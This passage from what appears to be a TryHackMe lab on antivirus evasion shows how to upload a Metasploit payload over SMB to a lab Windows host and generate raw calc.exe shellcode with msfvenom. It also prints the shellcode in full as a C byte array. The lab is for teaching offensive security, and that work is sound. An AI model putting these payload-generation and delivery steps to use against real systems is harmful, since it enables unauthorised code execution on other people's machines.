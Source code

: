 ```shell-session
user@AttackBox$ smbclient -U thm '//10.10.61.104/Tools'
smb: \> put calc-MSF.exe
```

This should copy your file in `C:\Tools\` in the Windows machine.

While your machine's AV should be disabled, feel free to try and upload your payload to the THM Antivirus Check at `http://10.10.61.104/`.

![Executing MSF Payload to run calc.exe](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/e90959ae18f71d51d7b8681676029493.png)  

The Metasploit framework has many other shellcode formats and types for all your needs. We strongly suggest experimenting more with it and expanding your knowledge by generating different shellcodes.

The previous example shows how to generate shellcode and execute it within a target machine. Of course, you can replicate the same steps to create different types of shellcode, for example, the Meterpreter shellcode.

## Generate Shellcode from EXE files

Shellcode can also be stored in `.bin` files, which is a raw data format. In this case, we can get the shellcode of it using the `xxd -i` command.

C2 Frameworks provide shellcode as a raw binary file `.bin`. If this is the case, we can use the Linux system command `xxd` to get the hex representation of the binary file. To do so, we execute the following command: `xxd -i`.

Let's create a raw binary file using msfvenom to get the shellcode:

Generate a Raw shellcode to Execute calc.exe

```shell-session
user@AttackBox$ msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f raw > /tmp/example.bin
No encoder specified, outputting raw payload
Payload size: 193 bytes

user@AttackBox$ file /tmp/example.bin
/tmp/example.bin: data
```

And run the `xxd` command on the created file:

Get the shellcode using the xxd command

```shell-session
user@AttackBox$ xxd -i /tmp/example.bin
unsigned char _tmp_example_bin[] = {
  0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 0xc0, 0x64,
  0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 0x28,
  0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c,
  0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52,
  0x10, 0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01, 0xd1,
  0x51, 0x8b, 0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49,
  0x8b, 0x34, 0x8b, 0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01,
  0xc7, 0x38, 0xe0, 0x75, 0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75,
  0xe4, 0x58, 0x8b, 0x58, 0x24, 0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b,
  0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24,
  0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 0xff, 0xe0, 0x5f, 0x5f, 0x5a,
  0x8b, 0x12, 0xeb, 0x8d, 0x5d, 0x6a, 0x01, 0x8d, 0x85, 0xb2, 0x00, 0x00,
  0x00, 0x50, 0x68, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 0xb5,
  0xa2, 0x56, 0x68, 0xa6, 0x95, 0xbd, 0x9d, 0xff, 0xd5, 0x3c, 0x06, 0x7c,
  0x0a, 0x80, 0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a,
  0x00, 0x53, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65,
  0x00
};
unsigned int _tmp_example_bin_len = 193;
```
